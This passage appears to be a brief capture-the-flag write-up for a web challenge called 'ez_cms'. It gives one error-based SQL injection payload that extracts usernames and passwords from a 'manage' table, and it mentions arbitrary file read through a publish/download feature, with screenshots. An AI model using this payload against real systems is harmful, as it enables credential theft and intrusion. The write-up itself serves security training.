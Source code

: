 ## Web
### ez_cms
`?r=content&cid=1%20or%20updatexml(1,concat(0x7e,(select%20concat(user,0x3a,password)%20from%20manage)),1)`

![](attachments/Pasted%20image%2020230722105003.png)

![](attachments/Pasted%20image%2020230722104909.png)

通过发布下载实现任意文件读取
![](attachments/Pasted%20image%2020230722105721.png)

![](attachments/Pasted%20image%2020230722105710.png)
